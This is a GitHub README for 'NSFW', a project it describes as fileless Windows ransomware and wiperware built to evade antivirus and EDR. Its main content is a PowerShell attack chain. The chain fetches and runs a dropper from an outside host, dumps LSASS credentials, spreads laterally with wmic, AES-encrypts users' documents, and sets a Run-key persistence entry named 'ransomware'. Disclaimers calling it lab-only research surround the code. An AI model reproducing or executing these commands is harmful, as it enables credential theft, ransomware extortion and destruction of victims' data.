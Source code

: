 
# NSFW: Fileless Hybrid Malware 

![Demo Screenshot](https://github.com/user-attachments/assets/f93a65bd-d000-41f0-a941-631f047417e4)

---

## 🧠 Summary: What Is NSFW?

NSFW (Net Sharing Fileless Wiperware) is a Windows focused malware dev:

- **Fileless malware**, which operates solely in memory to bypass traditional AV/EDR.
- **Polymorphic behavior**, making detection more difficult via mutation at runtime.
- **LOLBins (Living Off the Land Binaries)**, trusted system binaries leveraged for offensive operations without dropping executables on disk.
- **DiskCryptor-integrated crypto-viral payloads**, combining disk-level encryption (e.g., AES-XTS) with self-propagating ransomware capabilities, embedding cryptographic routines into reflective DLLs to execute volatile encryption logic, enforce ransom timers, or trigger destructive wipe logic if conditions are unmet—all while maintaining in-memory execution and no persistent footprint.



This repo helps simulate a realistic adversary kill chain using MITRE ATT&CK techniques, entirely fileless and stealthy in nature.

---

## 🔓 Fileless Ransomware Lab Example (LOLBins in Action)

> **Warning:** This is a synthetic simulation for red team research.  
> **Never run outside of an isolated test lab.**

```powershell
# Initial Access (T1190) - Load dropper via web
IEX(New-Object Net.WebClient).DownloadString("http://malicious.com/dropper.ps1")

# Execution (T1059.001) - Decode & load payload
$bytes = [System.Convert]::FromBase64String("[Base64Payload]") 
[System.Reflection.Assembly]::Load($bytes)

# Privilege Escalation (T1548)
Start-Process powershell -Args "-ExecutionPolicy Bypass -File C:\Temp\elevate.ps1" -Verb RunAs

# Credential Access (T1003.001)
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Temp\lsass.dmp full

# Lateral Movement (T1021.001)
wmic /node:targetPC process call create "powershell.exe -File \\share\payload.ps1"

# File Encryption (T1486)
$files = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.docx,*.pdf -Recurse
foreach ($file in $files) {
  $data = Get-Content $file.FullName -Raw
  $aes = New-Object System.Security.Cryptography.AesManaged
  $aes.Key = [Text.Encoding]::UTF8.GetBytes("RANDOM-GEN-KEY-1234567890123456")
  $aes.IV = New-Object byte[] 16
  $enc = $aes.CreateEncryptor().TransformFinalBlock([Text.Encoding]::UTF8.GetBytes($data), 0, $data.Length)
  Set-Content -Path $file.FullName -Value ([Convert]::ToBase64String($enc))
}

# Persistence (T1547.001)
Set-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "ransomware" -Value "powershell -File C:\Temp\persist.ps1"
````

---

## 🧭 Additional Resources

* [LOLOL Farm – LOLBin Playground](https://lolol.farm/)
* [LOLGEN – Generate LOLBin Chains](https://lolgen.hdks.org/)
* [MITRE ATT\&CK: S0697](https://attack.mitre.org/software/S0697/)
* [DLL Injection Primer](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
* [Print Spooler Exploit Chain](https://itm4n.github.io/printnightmare-not-over/)
* [Fileless Malware Wikipedia](https://en.wikipedia.org/wiki/Fileless_malware)

---

## ⚖️ Legal & Ethical Advisory

> 📢 **Important Notice:**
> This repository is for **educational and research purposes only**.
> You are responsible for complying with all local, national, and international laws when using any code or technique from this project.
>
> * Do **not** use NSFW for malicious activity.
> * Do **not** deploy in any production or unauthorized environment.
> * Use in **air-gapped**, **isolated**, and **sandboxed labs** only.
>
> **Violations of law or professional ethics are your liability.**



